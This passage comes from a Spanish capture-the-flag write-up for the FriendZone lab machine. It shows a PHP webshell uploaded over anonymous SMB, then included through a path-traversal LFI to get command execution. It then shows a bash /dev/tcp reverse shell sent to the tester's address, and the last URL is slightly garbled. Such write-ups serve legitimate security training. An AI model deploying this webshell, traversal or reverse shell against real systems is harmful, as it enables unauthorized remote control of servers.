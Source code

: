 Atemos cabos con todo lo que tenemos, un LFI podemos llamar a recursos locales de la máquina, que sean php. Y si recuerdas, por SMB vimos que en la carpeta **Development**, que podría estar en la ruta **/etc/Development** ya que vimos en el mismo SMB la ruta **/etc/Files** tenemos permisos de escritura. Así que podríamos cargar una webshell y luego llamarla desde el LFI.

## Subida de WebShell y shell como www-data

Subamos una webshell.php. Primero creo ese php:

```php
<?php system($_REQUEST['cmd']); ?>
```

Y ahora hay dos maneras de subirlo:

```sh
# Desde fuera del smb
❯ smbclient -N //10.10.10.123/Development -c 'put webshell.php'
putting file webshell.php as \webshell.php (0,3 kb/s) (average 0,3 kb/s)
❯ smbclient -N //10.10.10.123/Development
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 22 10:23:58 2024
  ..                                  D        0  Tue Sep 13 16:56:24 2022
  webshell.php                        A       34  Fri Mar 22 10:23:58 2024

		3545824 blocks of size 1024. 1572992 blocks available
# vemos arriba como funciona

# O desde dentro:
smb: \> put webshell.php
```

Una vez que está ya alojada en la máquina objetivo es hora de llamarlo desde nuestro LFI. Pero ¡espera!, desde nuestro LFI con el wrapper de base 64 no funcionará, ya que de esta manera no interpreta el código en php. Tenemos que probar a llamar al recurso directamente. En vez de probar con la webshell.php que no tenemos muy claro donde esta probemos con **dashboard** que sabemos que está en la carpeta actual. Doy con la url que llama al php a la primera ueue; **https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=dashboard**. Vemos en el navegador que nos sale Nelson dos veces. Ahora probemos a llamar a la whebshell.php, haciendo path traversal y suponiendo la dirección /etc/Development; **https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../../../etc/Development/webshell&cmd=id**. Funciona:

![RCE]({{ 'assets/img/writeups/FriendZone/rce.png' | relative_url }}){: .center-image }

¡Guay!. Tenemos RCE (Remote Command Execution). 

Quiero lanzarme una reverse shell. En vez de usar el comando `id` usaré este `bash -c 'bash -i >& /dev/tcp/10.10.14.23/443 0>&1'`, pero sustituyendo el ampersand por **%26** -a hexadecimal-, así suele funcionar mejor.

Me pongo en escucha por el puerto 443.

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
```
Y ahora en la url; **https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../../../etc/Development/webshell&cmd=bash -c 'bash -i >&26 /dev/tcp/10.10.14.23/443 0>&261'**.
